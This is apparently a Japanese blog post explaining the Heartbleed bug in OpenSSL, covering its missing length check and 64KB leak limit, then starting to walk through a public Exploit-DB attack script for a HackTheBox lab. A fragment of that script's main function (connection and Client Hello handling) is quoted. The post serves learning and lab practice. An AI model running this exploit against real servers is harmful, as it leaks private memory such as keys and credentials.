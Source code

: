 次に、受け取ったデータの2バイト目から3バイト目を`n2s()`マクロで取得し、payloadに格納しています。

```c
#define n2s(c,s)	( ( s = (((unsigned int)(c[0]))<< 8) | (((unsigned int)(c[1]))) ) , c+=2)
```

なぜこのようなことをしているのか疑問だったのですが、**受け取ったデータの2バイト目から3バイト目には、payload全体のlengthが格納されている**ようです。
参考：[Heartbleed Bug Explained](https://stackabuse.com/heartbleed-bug-explained/)

つまり、ここで取得したpayload長に対するバリデーションが存在しないままmemcpy関数にpayload長を与えてしまうことで、本来想定されていない領域の情報まで応答に含んでしまうようになるというわけです。
参考：[ARR33-C. コピーは必ず十分なサイズの記憶領域に対して行われることを保証する](https://www.jpcert.or.jp/sc-rules/c-arr33-c.html)

これで、脆弱性のメカニズムの概要はつかめたような気がしますが、最後に疑問が残ります。
**なぜ、Heartbleedの悪用で一度に得られる情報の最大値が64KBと言われているのでしょうか。**

これは、ペイロード長として使用される枠が2バイトであるためです。
ペイロード長を示すバイト列には、16進数で最大FFFFまでの値を挿入できます。

2バイト=16bitで表現できるアドレスは64KBまでなので、**Heartbleedの悪用で一度に取得できる情報の最大値も64KB**という話です。

## HackTheBox [Valentine] を攻略する

さて、Heartbleedの概要がつかめたところで、実際にこの脆弱性を悪用して、HackTheBox のEasyマシン、Valentineを攻略していきます。

とはいえ、今回のテーマはHeartbleedに対する攻撃を再現することですので、攻略手法の大部分は割愛します。
マシン攻略の詳細は、[yukitsukai47](https://qiita.com/yukitsukai47)さんの[Hack The Box[Valentine] -Writeup- - Qiita](https://qiita.com/yukitsukai47/items/e59407abd1e76fa48a24)が分かりやすいのでおすすめです。

## Heartbleed の攻撃コードを読む

公開されている攻撃コードを参考に、実際の悪用方法について理解していきたいと思います。

攻撃コードは[exploit-db.com/exploits/32764](https://www.exploit-db.com/exploits/32764)を参考にしました。

コードの全体は貼りませんので、適宜上記のページを参照ください。

### main関数

まずはmain関数部分を読んで、攻撃の流れを把握してみようと思います。

```python
def main():
    # 1. 引数の受け取り
	opts, args = options.parse_args()
	if len(args) < 1:
		options.print_help()
		return
    
    # 2. 各バージョンごとにコネクションを確立し、create_hello関数を実行
	for i in range(len(version)):
		print 'Trying ' + version[i][0] + '...'
		s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
		print 'Connecting...'
		sys.stdout.flush()
		s.connect((args[0], opts.port))
		print 'Sending Client Hello...'
		sys.stdout.flush()
		s.send(create_hello(version[i][1]))
		print 'Waiting for Server Hello...'
		sys.stdout.flush()
        
        # 3．なんやかんや応答チェック
		while True:
			typ, ver, pay = recvmsg(s)
			if typ == None:
				print 'Server closed connection without sending Server Hello.'
				return
```